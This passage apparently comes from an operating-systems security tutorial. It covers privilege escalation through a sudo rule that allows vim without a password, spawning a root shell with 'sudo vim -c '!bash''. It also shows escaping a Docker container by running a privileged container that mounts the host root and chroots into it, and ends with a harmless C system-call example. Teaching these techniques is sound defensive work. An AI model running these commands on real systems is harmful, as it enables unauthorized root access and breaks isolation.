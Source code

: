 

---

5. Privilege Escalation

Once an attacker has access, they attempt to gain administrative rights.

Example: Sudo Misconfiguration

Check for misconfigured sudo privileges:
```
sudo -l

```
Output:

User hacker may run the following commands on target:
    (ALL) NOPASSWD: /usr/bin/vim

Exploit:
```
sudo vim -c '!bash'

```
Result: A root shell is spawned.



---

6. Virtualization and Sandboxing

Operating Systems now support virtual environments for isolation.

Example: Escaping a Container

Containers like Docker isolate applications. Misconfigurations might allow attackers to escape:
```
docker run --privileged -v /:/host -it ubuntu chroot /host

```
Explanation: This command mounts the host filesystem and switches to it, breaking isolation.



---

Theories and Advanced Topics

1. System Calls

System calls are interfaces provided by the OS to perform tasks like file access or memory allocation.

Example: File Creation In C:

#include <fcntl.h>
#include <unistd.h>

int main() {
    int fd = open("example.txt", O_CREAT | O_WRONLY, 0644);
    write(fd, "Hello, OS!", 10);
    close(fd);
    return 0;
}
